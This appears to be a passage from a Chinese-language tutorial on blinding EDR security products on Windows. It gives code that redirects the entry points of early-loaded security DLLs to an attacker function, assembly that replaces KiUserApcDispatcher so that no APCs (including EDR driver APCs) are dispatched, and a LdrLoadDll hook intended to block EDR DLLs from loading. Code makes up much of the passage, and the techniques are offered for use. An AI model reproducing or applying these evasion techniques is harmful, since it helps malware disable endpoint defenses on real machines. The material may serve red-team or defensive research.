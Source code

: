 ```bash
        PLDR_DATA_TABLE_ENTRY2 module_entry = CONTAINING_RECORD(list_entry, LDR_DATA_TABLE_ENTRY2, InMemoryOrderLinks);

        // only the below DLLs should be loaded this early, anything else is probably a security product
        if (SafeRuntime::wstring_compare_i(module_entry->BaseDllName.Buffer, L"ntdll.dll") != 0 &&
            SafeRuntime::wstring_compare_i(module_entry->BaseDllName.Buffer, L"kernel32.dll") != 0 &&
            SafeRuntime::wstring_compare_i(module_entry->BaseDllName.Buffer, L"kernelbase.dll") != 0) {

            module_entry->EntryPoint = &EdrParadise;
        }

        list_entry = list_entry->Flink;
    }
}
```

### 禁用 APC 调度程序

当 APCs 排队到线程时，它们会被 ntdll !KiUserApcDispatcher() 处理，然后调用 ntdll!NtContinue() 将线程返回到其原始上下文。通过挂钩 KiUserApcDispatcher 并将其替换为我们自己的函数，该函数仅在循环中调用 NtContinue()，任何 APC 都不能排队到我们的进程中（包括来自 EDR 内核驱动程序的 APC）。

```bash
; simple APC dispatcher that does everything except dispatch APCs
KiUserApcDispatcher PROC
  _loop:
    call GetNtContinue
    mov rcx, rsp
    mov rdx, 1
    call rax
    jmp _loop
  ret
KiUserApcDispatcher ENDP
```

### 代理 LdrLoadDll 调用

通过在 ntdll!LdrLoadDll() 上放置一个钩子，我们可以监视正在加载的 DLL。如果任何 EDR 尝试使用 LdrLoadDll 加载其 DLL，我们可以卸载或禁用它。理想情况下，我们可能想要挂钩 ntdll!LdrpLoadDll()，它是较低级别的，由一些 EDR 直接调用，但为了简单起见，我们将只使用 LdrLoadDll。

```bash
// we can use this hook to prevent new modules from being loaded (though with both EDRs I tested, we don't need to)
NTSTATUS WINAPI LdrLoadDllHook(PWSTR search_path, PULONG dll_characteristics, UNICODE_STRING* dll_name, PVOID* base_address) {

    //todo: DLL create a list of DLLs to either be allowed or disallowed

    return OriginalLdrLoadDll(search_path, dll_characteristics, dll_name, base_address);
}
```
